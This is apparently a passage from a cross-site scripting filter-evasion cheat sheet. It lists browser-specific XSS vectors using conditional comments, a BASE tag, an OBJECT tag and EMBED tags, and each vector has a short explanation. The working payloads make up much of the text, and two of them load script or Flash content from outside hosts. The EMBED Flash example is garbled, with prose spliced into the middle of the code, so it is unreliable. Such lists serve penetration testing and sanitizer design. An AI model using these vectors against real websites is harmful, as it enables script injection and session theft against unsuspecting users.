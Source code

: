 Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine
mode). Some websites consider anything inside a comment block to be safe
and therefore does not need to be removed, which allows our Cross Site
Scripting vector. Or the system could add comment tags around something
to attempt to render it harmless. As we can see, that probably wouldn't
do the job:

    `<!--[if gte IE 4]>`  
    ` <SCRIPT>alert('XSS');</SCRIPT>`  
    ` <![endif]-->`

## BASE tag

Works in IE and Netscape 8.1 in safe mode. You need the // to comment
out the next characters so you won't get a JavaScript error and your XSS
tag will render. Also, this relies on the fact that the website uses
dynamically placed images like "images/image.jpg" rather than full
paths. If the path includes a leading forward slash like
"/images/image.jpg" you can remove one slash from this vector (as long
as there are two to begin the comment this will work):

    `<BASE HREF="javascript:alert('XSS');//">`

## OBJECT tag

If they allow objects, you can also inject virus payloads to infect the
users, etc. and same with the APPLET tag). The linked file is actually
an HTML file that can contain your XSS:

    ` <OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>`

## Using an EMBED tag you can embed a Flash movie that contains XSS

Click here for a demo. If you add the attributes
allowScriptAccess="never" and allownetworking="internal" it can mitigate
this risk (thank you to Jonathan Vanasco for the info).:
          `EMBED SRC="http://ha.ckers.Using an EMBED tag you can embed a Flash movie that contains XSS. Click here for a demo. If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).:`           
    `org/xss.swf" AllowScriptAccess="always"></EMBED>`

## You can EMBED SVG which can contain your XSS vector

This example only works in Firefox, but it's better than the above
vector in Firefox because it does not require the user to have Flash
turned on or installed. Thanks to nEUrOO for this one.

    `<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>`

